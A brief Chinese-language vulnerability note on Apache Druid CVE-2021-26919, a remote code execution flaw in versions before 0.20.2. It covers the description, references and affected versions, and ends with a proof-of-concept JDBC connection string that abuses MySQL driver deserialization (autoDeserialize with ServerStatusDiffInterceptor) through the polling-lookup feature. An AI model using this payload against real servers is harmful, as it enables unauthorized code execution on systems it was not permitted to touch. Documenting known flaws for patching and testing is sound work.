 # 

# Apache Druid 远程代码执行漏洞 CVE-2021-26919

## 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。2021年3月30日，Apache Druid官方发布安全更新，修复了 CVE-2021-26919 Apache Druid 远程代码执行漏洞。由于Apache Druid 默认情况下缺乏授权认证，攻击者可直接构造恶意请求执行任意代码，控制服务器。

参考链接：

* http://m0d9.me/2021/04/21/Apache-Druid-CVE-2021-26919-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
* https://help.aliyun.com/noticelist/articleid/1060822985.html

## 漏洞影响

```
Apache Druid < 0.20.2
```

## 漏洞复现

jdbc触发点：https://druid.apache.org/docs/0.19.0/development/extensions-core/druid-lookups.html#polling-lookup

poc:

```
url = "jdbc:mysql://localhost:3307/?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&maxAllowedPacket=65535"
user ="cb1"
password="password"
```


